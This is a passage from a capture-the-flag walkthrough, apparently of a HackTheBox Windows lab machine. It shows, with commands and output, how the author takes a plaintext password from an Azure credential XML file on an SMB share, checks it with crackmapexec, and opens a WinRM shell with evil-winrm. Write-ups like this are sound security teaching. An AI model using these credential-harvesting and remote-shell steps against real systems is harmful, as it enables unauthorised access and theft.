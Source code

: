 
There’s a file at `\\10.10.10.172\mhope\azure.xml`. I’ll grab it with
`smbclient`:

    
    
    root@kali# smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
    getting file \mhope\azure.xml of size 1212 as azure.xml (24.7 KiloBytes/sec) (average 24.7 KiloBytes/sec)
    

It contains a password:

    
    
    <Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
      <Obj RefId="0">
        <TN RefId="0">
          <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
          <T>System.Object</T>
        </TN>
        <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
        <Props>
          <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
          <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
          <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
          <S N="Password">4n0therD4y@n0th3r$</S>
        </Props>
      </Obj>
    </Objs>
    

### Shell Over WinRM

Since that configuration file was in mhope’s directory, I’ll guess that the
creds are associated with that user. `crackmapexec` shows that not only is
that right, but that they will work over WinRM:

    
    
    root@kali# crackmapexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
    WINRM       10.10.10.172    5985   MONTEVERDE       [*] http://10.10.10.172:5985/wsman
    WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
    

I’ll grab a shell with [Evil-WinRM](https://github.com/Hackplayers/evil-
winrm):

    
    
    root@kali# evil-winrm.rb -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
    
    Info: Starting Evil-WinRM shell v1.7
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\mhope\Documents>
    

And I can grab `user.txt`:
